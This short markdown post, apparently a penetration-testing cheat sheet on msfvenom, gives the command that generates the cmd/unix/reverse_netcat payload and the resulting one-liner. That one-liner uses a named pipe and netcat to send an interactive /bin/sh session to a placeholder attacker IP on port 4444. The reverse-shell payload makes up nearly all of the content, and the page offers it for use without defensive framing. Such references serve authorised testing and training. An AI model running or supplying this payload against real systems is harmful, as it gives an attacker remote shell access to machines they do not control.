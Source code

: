 ```yaml
---
layout: post
title: "msfvenom"
keywords: "msf, metasploit, payloads, msfvenom"
---
```


### cmd/unix/reverse_netcat
`msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=4444 R`
```
mkfifo /tmp/xrdqdir; nc <IP> 4444 0</tmp/xrdqdir | /bin/sh >/tmp/xrdqdir 2>&1; rm /tmp/xrdqdir
```